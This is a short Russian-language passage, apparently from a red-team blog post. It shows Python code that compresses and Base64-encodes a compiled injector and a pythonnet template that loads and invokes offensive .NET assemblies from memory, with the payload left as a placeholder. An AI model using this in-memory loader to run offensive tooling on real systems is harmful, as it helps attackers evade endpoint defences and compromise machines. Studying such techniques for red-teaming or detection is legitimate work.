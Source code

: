 [![donut-self-injector.png](/assets/images/python-pyramid/donut-self-injector.png)](/assets/images/python-pyramid/donut-self-injector.png)
{:.center-image}

Люблю пончики
{:.quote}

После компиляции инжектора я его сожму и заверну в Base64:

```python
>>> import zlib
>>> from base64 import b64encode
>>>
>>> with open('Program.exe', 'rb') as f:
>>>     b64encode(zlib.compress(f.read(), level=9)).decode()  # <ASSEMBLY_BYTES_BASE64>
```

И теперь с помощью такого простого темплейта можно вызывать из памяти Python наступательные сборки .NET:

```python
import clr
import zlib
import base64

clr.AddReference('System')
from System import *
from System.Reflection import *

b64 = base64.b64encode(zlib.decompress(base64.b64decode(b'<ASSEMBLY_BYTES_BASE64>'))).decode()
raw = Convert.FromBase64String(b64)

assembly = Assembly.Load(raw)
type = assembly.GetType('Namespace.Type')
type.GetMethod('Method').Invoke(Activator.CreateInstance(type), None)
```
